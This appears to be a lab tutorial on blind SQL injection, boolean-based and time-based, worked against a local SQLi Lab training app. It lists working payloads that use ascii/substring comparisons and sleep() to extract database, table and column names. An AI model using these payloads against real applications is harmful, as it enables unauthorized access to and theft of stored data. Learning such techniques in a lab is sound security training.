 <h1 align="center">Blind SQL Injection</h1>

# Boolean Based SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`


## `IF()`

- The IF() function returns a value if a condition is TRUE, or another value if a condition is FALSE

#### Syntax

`IF(condition, value_if_true, value_if_false)`

- eg. ` IF(500<1000, "YES", "NO")`





<br>


<h1 align="center">Practical Lab (Boolean-Based) Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

### 3. Finding Table name 

#### Step by step payload creation

- `AND (ascii(substring()))`

- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

#### Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`



<h1 align="center"> Time-Based Injection</h1>


## Mostly same as Boolean Based Injection and used SQLI lab `lesson 10`


## Identify the vulnerability

`' and sleep(10)--+`

`" and sleep(10)--+`

## Payload

`" and if(100<200,sleep(10),Null)--+`

`" and if(ascii(substring(database(),1,1)) = 115,sleep(10),Null)--+`




